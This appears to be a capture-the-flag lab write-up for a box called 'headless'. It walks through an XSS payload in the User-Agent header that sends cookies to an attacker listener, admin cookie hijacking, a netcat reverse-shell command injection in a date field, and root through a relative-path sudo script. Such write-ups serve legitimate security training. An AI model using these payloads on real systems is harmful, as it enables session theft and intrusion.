 
We run nmap and find that port 5000 is open.

There is a support screen where there is a place to log a support ticket. We input a script there to check for a cross site scripting vulnerability. This is input in burpsuite

```
User-Agent: <script>var i=new Image(); i.src="http://10.10.14.41:5000/?cookie="+btoa(document.cookie);
</script>
```

On our local we run a webserver to to receive a cookie:

```
python3 -m http.server 5000

Serving HTTP on 0.0.0.0 port 5000 (http://0.0.0.0:5000/) ...
10.10.14.41 - - [14/Jul/2024 11:08:21] "GET /?
cookie=aXNfYWRtaW49SW5WelpYSWkudUFsbVhsVHZtOHZ5aWhqTmFQRFdudkJfWmZz HTTP/1.1" 200 -
10.10.11.8 - - [14/Jul/2024 11:08:42] "GET /?
cookie=aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= HTTP/1.1" 200 -
```

After a gobuster dir attack, we see that there is a /dashboard behind a signin. We use the cookie to login as admin to connect to the /dashboard. First we have to run the cookie against base64

```
echo "aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=" | base64 -d
```

We then input the cookie via developer tools in the storage tab.

On the /dashboard page in burpsuite we find that there is a `date` input, we add another command injection there to get a reverse shell on the attacking box.

```
date=2023-09-15;+nc+10.10.14.41+4444+-e+/bin/bash
```

Netcat listens and gets our shell:

```
$ nc -lnvp 4444

id 
uid=1000(dvir) gid=1000(dvir) groups=1000(dvir),100(users)
```

I have obtained interactive shell as the `dvir` user. I can upgrade the shell with 

```
script /dev/null -c /bin/bash

Script started, output log file is '/dev/null'.
dvir@headless:~/app$
```

The user flag is found by running `cat /home/dvir/user.txt`

To get root access I run `sudo -l` to see what this user can run as root. The output is the file `/usr/bin/syscheck`.

Looking at the file, it does a database service check, where if there is no process named `initdb.sh` running, the script attempts to execute it without specifying an absolute path. Since I have permissions in certain directories, I can create a malicious script named `initdb.sh`, when the script runs it will run with root privileges.

I create the file `initdb.sh` in the `/tmp` folder:

```
dvir@headless:/tmp$ cd /tmp
dvir@headless:/tmp$ echo -e '#!/bin/bash\n/bin/bash' > /tmp/initdb.sh
dvir@headless:/tmp$ chmod +x /tmp/initdb.sh

dvir@headless:/tmp$ sudo /usr/bin/syscheck

Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 1.9G
System load average:  0.05, 0.03, 0.00
Database service is not running. Starting it...
id

uid=0(root) gid=0(root) groups=0(root)
```

Now that we have root access I can `cat /root/roo.txt` and get the flag.